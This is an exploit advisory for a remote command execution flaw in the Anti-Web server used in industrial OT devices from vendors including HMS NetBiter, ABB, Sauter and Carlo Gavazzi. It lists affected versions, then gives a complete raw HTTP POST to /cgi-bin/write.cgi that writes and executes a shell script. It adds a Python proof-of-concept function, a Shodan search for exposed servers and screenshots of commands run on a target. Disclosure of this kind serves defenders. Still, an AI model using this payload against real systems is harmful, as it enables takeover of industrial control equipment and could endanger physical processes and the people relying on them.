# Exploit Title: Apps industrial OT over Server: "Anti-Web 3.x.x < 3.8.x" vuln: Remote Command Execution

*** 
	[*] Date: 15/05/2017
	[*] Exploit Author:  Fernandez Ezequiel ( @capitan_alfa ) && Bertin Jose ( @bertinjoseb )
	[*] Vendor: Multiples vendors
	[*] Category: Industrial OT webapps
***

### [+] DESCRIPTION:
***
	[*] vulnerability:		RCE ( REMOTE COMMAND EXECUTION ) 
	[*] Attack Vector (AV): 	Remote
	[*] Attack Complexity (AC): 	Low
	[*] Confidentiality (C): 	High	
***

## AFFECTED PRODUCTS (& Vendors):

	[+] Vendor: NetBiter / HMS
		Web: 	http://www.netbiter.net
		[*] product 		= WS100
			version 		= 3.30.5
			build 			= 314
			hardware 		= NB100/NB102
			build_time 		= 2011-07-04 15:46:45
			needed_kernel 	= 1.2.23

			[x] /etc/version (Kernel version):
				Intellicom/NB100 Version 1.2.23 --  Tue Oct 12 10:36:40 CEST 2010

		[*] product 		= FGW200
			version 		= 3.31.2
			build 			= 81
			hardware 		= NB200
			build_time 		= 2010-12-08 09:53:20
			needed_kernel 	= 2.6.12-uc0-NB200-9

			[x] /etc/version (Kernel version):
				IntelliCom/NB200 Version 1.0.0  --  Tue Feb 16 14:15:48 CET 2010

		[*]	Product 		= NetBiter&reg; webSCADA
			version 		= 3.20.0
			needed_kernel 	= 1.2.5

			[x] /etc/version (Kernel version)
				Intellicom/NB100 Version 1.2.5 --  Fri Nov 2 10:23:52 CET 2007

	[+] Vendor: Ouman
		Web:	http://ouman.fi/ 
		[*] Product 		= Ouman EH-net
			version			= 3.25.14
			needed_kernel 	= 1.2.14
			hardware		= NB102
			build 			= 321
			build_time 		= 2012-10-16 09:19:19

			[x] /etc/version (Kernel version):
			 	Intellicom/NB100 Version 1.2.25 --  Tue Oct 18 11:23:34 CEST 2011

	[+] Vendor: Alliance System 
		Web:	http://www.crf.se/)
		[*] Product 		= WS100 --> AWU 500
			version 		= 3.30.5
			build 			= 282 /313 /314 / 
			hardware 		= NB100/NB102
			build_time 		= 2011-07-04 15:46:45
			needed_kernel 	= 1.2.14 / 1.2.23

			[x] /etc/version (Kernel version):
			 	Intellicom/NB100 Version 1.2.23

	[+] Vendor: Sauter 
		Web: 	http://www.sauteriberica.com/es.html
		[*] product 		= ERW100F001
			version 		= 3.30.2
			build 			= 9
			hardware 		= NB100/NB102
			build_time 		= 2009-02-06 13:11:33
			needed_kernel 	= 1.2.14

			[x] /etc/version (Kernel version):
				Intellicom/NB100 Version 1.2.16 --  Thu Mar 12 15:40:46 CET 2009

	[+] Vendor: 	Carlo Gavazzi
		Web: 		http://www.carlogavazzi.se/
		doc/pdf: 	http://www.support-carlogavazzi.se/downloads/-manualer/siu-dlg_pocketguide.pdf
		[*]	product 		= SIU-DLG
			version 		= 3.31.3
			build 			= 25
			hardware		= NB200
			build_time		= 2012-05-02 10:37:50
			needed_kernel 	= 2.6.12-uc0-NB200-13

			[x] /etc/version (Kernel version):
				IntelliCom/NB200 Version 1.0.0 --  Tue Apr 10 14:25:32 CEST 2012

	[+] Vendor: SMART-1
	Web:	----
		[*] product 		= AEDILIS SMART-1
			version 		= 3.30.4
			build 			= 277
			hardware 		= NB200
			build_time 		= 2009-04-24 09:34:40
			needed_kernel 	= 2.6.12-uc0-NB200-6

			[x] /etc/version (Kernel version):
				IntelliCom/NB200 Version 1.0.0 --  Tue Mar 31 16:43:37 CEST 2009

	[+] vendor: SYXTHSENSE
		Web: 	http://www.syxthsense.com/
		[*] product 		= WebBiter
			version 		= 3.30.2
			build 			= 6
			hardware 		= NB100/NB102
			build_time 		= 2009-01-30 08:59:48
			needed_kernel 	= 1.2.14

			[x] /etc/version (Kernel version):
				Intellicom/NB100 Version 1.2.19 --  Wed Apr 28 15:58:51 CEST 2010

	[+] Vendor: ABB
		Web: 	http://www.abb.com/
		[*] product 		= SREA-01
			version 		= 3.31.5
			needed_kernel 	= 1.2.23
			build 			= 164
			build_time 		= 2011-08-19 14:08:16
			hardware 		= NB102
     		[x] /etc/version (Kernel version):
     			Intellicom/NB100 Version 1.2.23 --  Tue Oct 12 10:36:40 CEST 2010

		[*] product 		= SREA-50
			version 		= 3.32.8
			needed_kernel 	= 1.2.25
			build 			= 433
			build_time 		= 2011-12-13 14:56:30
			hardware 		= NB100/NB102

			[x] /etc/version (Kernel version):
				Intellicom/NB100 Version 1.2.25 --  Tue Oct 18 11:23:34 CEST 2011

	[+] Vendor: ASCON
	   	Web: 	http://www.junair-spraybooths.co.uk/
	   	Web: 	http://www.ascontecnologic.com/index.php/it/
   	   	Web: 	http://www.asconuae.com/

	   	[*] product 		= DY WebServer
			version 		= 3.30.2
			build 			= 184
			hardware 		= NB100/NB102
			build_time 		= 2009-01-23 14:18:15
			needed_kernel 	= 1.2.14

			[x] /etc/version (Kernel version)
				Intellicom/NB100 Version 1.2.15 --  Fri Jan 16 15:37:59 CET 2009

[!] POSIBLES (NO TESTEADO):

	[+] Vendor:  DSE / Deep Sea Electronics
		Web:  	 https://www.deepseaplc.com
		web: 	 http://www.dsewebnet.com/login/index.php
		[*] Product 		=	DSE850
			version 		=	1.00.1
			needed_kernel 	=	1.2.7

	[+] Vendor: SEGEM
		Web: 	http://www.arclim.fr/
		web: 	http://www.arclim.eu/
		[*] Product 		= WS100
			version 		= 3.30.5
			build 			= 307
			hardware 		= NB100/NB102
			build_time 		= 2011-03-08 10:39:00
			needed_kernel 	= 1.2.23

## VERSION WEBSERVER:

* Anti-Web V3.0.7-hms2
* ...
* Anti-Web V3.3.5
* ...
* Anti-Web V3.6.1
* ...	
* Anti-Web V3.7.1
* Anti-Web V3.7.2
* ...
* Anti-Web V3.8.1
* Anti-Web V3.8.2
* Anti-Web V3.8.3
* Anti-Web V3.8.4
* Anti-Web V3.8.5
* Anti-Web V3.8.7

## Steps To Reproduction:

### SIMPLE HTTP Request 

***
	POST /cgi-bin/write.cgi HTTP/1.1
	Host: <HOST>
	User-Agent: Morzilla_ar/7.0 (911; Pinux x86_128; rv:9743.0)
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
	Accept-Language: es-AR,en-US;q=0.7,en;q=0.3
	Referer: http://<HOST>/cgi-bin/
	Cookie: ID=0bce4b7eb065092efd274212b25c50e1
	Connection: close
	Content-Type: multipart/form-data; boundary=---------------------------1816993527151539919951297987
	Content-Length: 1513

	-----------------------------1816993527151539919951297987
	Content-Disposition: form-data; name="script1"

	file
	-----------------------------1816993527151539919951297987
	Content-Disposition: form-data; name="filename1"

	/home/httpd/pageimages/RCE.sh
	-----------------------------1816993527151539919951297987
	Content-Disposition: form-data; name="maxsize1"

	9100

	-----------------------------1816993527151539919951297987
	Content-Disposition: form-data; name="content1"

	/bin/'<HERE_COMMAND>'

	-----------------------------1816993527151539919951297987
	Content-Disposition: form-data; name="script2"

	execute

	-----------------------------1816993527151539919951297987
	Content-Disposition: form-data; name="path2"

	sh /home/httpd/pageimages/RCE.sh

	-----------------------------1816993527151539919951297987--
***

### poc, Python script:  
'''
def reqRCE(xCookie, xCommand):

	thePost = MultipartEncoder(fields={
					'script1'	: 'file', 
					'filename1'	: /home/httpd/pageimages/RCE.sh,
					'maxsize1'	: '9999', 

					'content1'	: '/bin/'+xCommand,

					'script2'	: 'execute',
					'path2'		: 'sh '+/home/httpd/pageimages/RCE.sh
										})
	contentType = len(str(thePost))

	headers["Host"] 			=  < HOST >
	headers["User-Agent"]		= "Morzilla/7.0 (911; #ciberpatrulla ;Cabo_Landajo x86_128; rv:9743.0)"
	headers["Accept"] 			= "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" 
	headers["Accept-Languag"] 	= "es-AR,en-US;q=0.7,en;q=0.3"
	headers["Referer"] 			=  http://< HOST >/
	headers["Cookie"]			= "ID="+xCookie
	headers["Connection"] 		= "close"
	headers["Content-Length"]	=  str(contentType)
	headers["Content-Type"] 	= thePost.content_type

	r1 = requests.post(fullHost, data=thePost,headers=headers,timeout=15.000)
	theRce = r1.text

	print "\nok..."
	return theRce
'''
***

## On the wild!:
[Servers anti-web](https://www.shodan.io/search?query=Server: Anti-Web)



### PANEL WEB (examples):

### Tool / PoC:
# RCE.py [-h] [-v] --host HOST [--port PORT] -ck COOKIE --cmd COMMAND

### Commands:

#### "ps aux"


#### "ls -la /home/config"


#### "ifconfig"


#### "ls -la /home/config/cgi-bin"


#### "ping -c 4 192.168.0.1 "


#### "route"


## extra screenshots:






